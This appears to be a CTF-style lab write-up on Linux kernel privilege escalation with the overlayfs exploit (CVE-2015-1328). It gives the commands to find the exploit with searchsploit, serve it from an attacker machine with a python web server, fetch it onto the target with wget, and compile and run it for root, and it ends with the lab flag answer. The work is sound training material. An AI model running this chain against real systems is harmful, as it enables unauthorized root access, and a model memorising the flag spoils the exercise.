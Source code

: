 Privilege escalation aims to gain root access by exploiting vulnerabilities or misconfigurations. 
On Linux, kernel exploits are a common method, involving:
1. Identifying the kernel version (uname -r).
2. Searching for exploits via Google, Exploit-DB, or Linux Exploit Suggester (LES).
3. Transferring the exploit to the target machine (e.g., using Python’s SimpleHTTPServer and wget).
4. Running the exploit, ensuring it is understood beforehand to avoid system instability.

Kernel exploits can crash systems, so they should only be used within the allowed scope. 
Some require further interaction, so reading instructions carefully is crucial.

### Q.1: find and use the appropriate kernel exploit to gain root privileges on the target system. 
### Answer: No answer needed

### Q.2: What is the content of the flag1.txt file?

There are a lot of different ways to exploit this kernel exploit. Let's go through the steps of the Kernel exploit Methodology.
1. Identify the kernel version.
```
$ uname -a
Linux wade7363 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```
2. Search and find an exploit code for the kernel version of the target system.
This we can find with some quick Googling. Download the exploit and move it into your /tmp folder. https://www.exploit-db.com/exploits/37292 

In our machine run this command: ```searchsploit linux kernel 3.13```. Then found some exploit that Privilage Escalation

```
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                        | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow)   | linux/local/37293.txt
Linux Kernel 3.13.1 - 'Recvmmsg' Local Privilege Escalation (Metasploit)                                                    | linux/local/40503.rb
Linux Kernel 3.14-rc1 < 3.15-rc4 (x64) - Raw Mode PTY Echo Race Condition Privilege Escalation                              | linux_x86-64/local/33516.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32=y' Local Privilege Escalation (3)                      | linux_x86-64/local/31347.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_X86_X32' Arbitrary Write (2)                                             | linux/local/31346.c
Linux Kernel 3.4 < 3.13.2 - recvmmsg x32 compat (PoC)                                                                       | linux/dos/31305.c
```
Then download the exploit using this command: ```searchsploit -m linux/local/37292.c```
```
Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
    Codes: CVE-2015-1328
 Verified: True
File Type: C source, ASCII text, with very long lines (466)
Copied to: /home/kali/37292.c
```
Then ```ls``` to see has it downloaded or not then and move it into your **/tmp** folder using: ```sudo mv /home/deadalien/37292.c ~/tmp```

On your local machine, we need to start up a python server so that we can send our downloaded exploit to our target machine in Attackbox. We can do this by: 
```python3 -m http.server 8000```
This starts a simple web server on port 8000.

Open up a new tab/terminal so that we can get the IP address of our local machine. We need this to connect to our target machine. Use the ifconfig command and scroll down.
```
tun0: inet <attacker ip>
```  
Now we need to download the file from your attacker machine. It is important to run these commands from the target machine. Before you fetch the file it is important to be in the /tmp directory so that you have permissions to “write” files.
```
$ cd /tmp
$ wget <attacker ip>:8000/37292.c
--2025-08-06 12:52:39--  http://10.17.11.98:8000/37292.c
Connecting to <attacker ip>:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: ‘37292.c’

100%[===============================================================================================================================>] 4,968       --.-K/s   in 0s      

2025-08-06 12:52:40 (798 MB/s) - ‘37292.c’ saved [4968/4968]
```
We got the file!

Compiling the .c code to a executable.

Now we just following the exploit instructions. Compile the .c file and run it:
```gcc 37292.c -o exploit```
Running the executable and Shows the result
```
$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
```
That worked. And we got root! 
```
# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
```
Now we need to find the flag with a quick find command:
```
#find / -name flag1.txt 2>/dev/null
/home/matt/flag1.txt
```
Now we can simply read the flag, which is at /home/matt/flag1.txt.
```
# cat /home/matt/flag1.txt
THM-28392872729920
```

### Answer: THM-28392872729920
